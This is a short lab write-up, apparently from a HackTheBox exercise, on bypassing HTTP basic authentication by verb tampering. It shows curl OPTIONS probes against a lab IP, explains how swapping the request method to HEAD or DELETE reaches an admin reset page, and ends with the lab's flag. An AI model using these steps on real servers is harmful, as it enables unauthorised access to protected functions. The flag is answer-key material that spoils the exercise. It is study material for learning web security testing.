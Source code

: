 # Bypassing Basic Authentication : Insecure server configurations

Automated vulnerability scanning tools usually identify HTTP Verb Tampering vulnerabilities caused by insecure server configurations.

But they miss ones caused by Insecur coding.

Insecure server configurations : easy to identify after by-pass
Insecure coding : harder, it requires active scans

## Identify

- Burp Suite
- Change Requet Method (switch GET to POST)

HEAD requests :
curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory

- Change POST to HEAD in Burp Suite

HEAD -> does not return the body, only headers but it confirmes that the request is bypassing basic auth

## LAB

curl -i -X OPTIONS http://94.237.55.163:53632

curl -i -X OPTIONS http://94.237.55.163:53632/admin/reset.php?
HTTP/1.1 200 OK
Date: Fri, 05 Jan 2024 19:43:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

DELETE /admin/reset.php? HTTP/1.1

HTB{4lw4y5_c0v3r_4ll_v3rb5}
